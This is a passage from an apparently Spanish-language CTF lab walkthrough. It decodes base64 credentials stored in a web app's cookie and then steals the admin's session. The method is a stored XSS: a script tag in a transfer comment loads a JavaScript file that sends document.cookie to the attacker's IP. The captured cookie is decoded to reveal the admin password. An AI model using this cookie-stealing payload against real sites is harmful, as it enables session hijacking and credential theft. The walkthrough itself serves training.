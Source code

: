     - Tiene 3 campos, *id* - *username* - *password*
    - Decodificamos el username

        ```bash
        echo "czR2aXRhcg==" | base64 -d; echo
        #Output
        s4vitar
        ```
    
    - Decodificamos el password

        ```bash
        echo "czR2aXRhcjEyMw==" | base64 -d; echo
        #Output
        s4vitar123
        ```

    Aqui vemos que la cookie unicamente esta encryptada en base64.

1. Intentamos robar la cookie del admin.

    - Creamos un fichero test.js

        ```javascript
        var request = new XMLHttpRequest();
        request.open('GET', 'http://10.10.17.51/?cookie='+document.cookie, true);
        request.send();
        ```

    - Creamos un servidor web con python

        ```bash
        python3 -m http.server 80
        ```

    - Modificamos nuevamente los valores de la transferencia
    
        ```bash
        Amount: 1
        ID of Addressee: 1
        Comment to him/her: <script src="http://10.10.17.51/test.js"></script>
        ```

    Aqui ya vemos la cookie de session del administrador.

1. Decodificamos la cookie del admin.

    ```bash
    php --interactive
    php > echo urldecode("username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D")
    #Output
    username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==

    echo "YWRtaW4=" | base64 -d; echo
    #Output
    admin

    echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d; echo
    #Output
    Hopelessromantic
    ```
